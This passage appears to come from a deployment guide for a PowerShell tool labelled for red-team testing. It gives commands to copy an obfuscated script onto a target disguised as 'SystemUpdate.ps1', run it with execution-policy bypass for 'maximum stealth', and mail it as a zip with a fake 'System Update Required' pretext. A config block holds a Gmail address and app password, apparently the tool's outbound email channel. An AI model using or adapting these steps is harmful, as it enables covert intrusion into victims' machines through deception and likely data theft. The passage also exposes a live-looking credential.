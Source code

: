 ### **Option 3: Single File Deployment (Ultimate Stealth)**

#### **Use SingleFile.ps1:**
```powershell
# Copy single file to target
Copy-Item ".\SingleFile.ps1" -Destination "C:\temp\SystemUpdate.ps1"

# Execute on target
powershell.exe -ExecutionPolicy Bypass -File "C:\temp\SystemUpdate.ps1"
```

**✅ Pros:** Single file, maximum stealth, no dependencies
**❌ Cons:** Larger file size, harder to maintain

---

### **Option 4: Email Attachment (Social Engineering)**

#### **Prepare Email Package:**
```powershell
# Create compressed package
.\Deploy.ps1 -Obfuscate -OutputPath ".\Email-Package"
Compress-Archive -Path ".\Email-Package\*" -DestinationPath "SystemUpdate.zip"
```

#### **Send via Email:**
- Attach `SystemUpdate.zip` to email
- Social engineering pretext: "System Update Required"
- Instructions: Extract and run `SystemUpdate.ps1`

**✅ Pros:** Remote deployment, social engineering
**❌ Cons:** Email filtering, user awareness

---

## 🎯 Recommended Deployment Strategy

### **For Red Team Testing:**

#### **Phase 1: Preparation**
```powershell
# 1. Configure email settings in Main.ps1
$Config = @{
    Email = "coccoder999@gmail.com"
    Password = "plby syha oaga jwtu"
    SmtpServer = "smtp.gmail.com"
    SmtpPort = 587
    UseTls = $true
}

# 2. Create deployment package
.\Deploy.ps1 -Obfuscate -CreateExecutable -OutputPath ".\Deployed"
```
